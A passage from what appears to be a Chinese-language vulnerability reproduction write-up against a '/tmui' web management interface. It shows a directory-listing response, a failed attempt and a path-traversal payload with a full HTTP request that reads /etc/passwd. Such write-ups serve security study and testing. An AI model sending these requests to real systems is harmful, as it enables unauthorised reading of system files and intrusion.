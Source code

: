 > Response

```http
   {
        "dir": "tmui",
        "children": [
          {
            "dir": "WEB-INF",
            "children": [
              {
                "dir": "classes",
                "children": [
                  {
                    "dir": "org",
                    "children": [
                      {
                        "dir": "apache",
                        "children": [
                          {
                            "dir": "jsp",
                            "children": [
                              {
                                "dir": "common",
                                "children": [
                                  {
                                    "file": "deleteconfirm_jsp.class"
  
                                      ............................
```

截图如下（复现失败，返回服务器内部错误500）

![9](9.png)

### 文件读取

> Payload

```http
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

 > Request

```http
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
Host: 192.168.1.245
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
```
